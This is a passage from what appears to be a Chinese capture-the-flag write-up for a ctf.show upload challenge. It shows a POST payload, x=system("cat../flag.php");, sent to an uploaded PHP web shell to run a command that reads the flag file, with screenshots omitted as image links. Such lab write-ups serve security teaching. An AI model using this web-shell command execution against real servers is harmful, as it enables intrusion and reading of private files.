 <figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然后我们输入执行代码

GET：

```url
http://45ff19ab-ea66-486d-a56a-ccb2c585ac93.challenge.ctf.show/upload/index.php
```

POST：

```url
x=system("cat../flag.php");
```

得到源代码

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
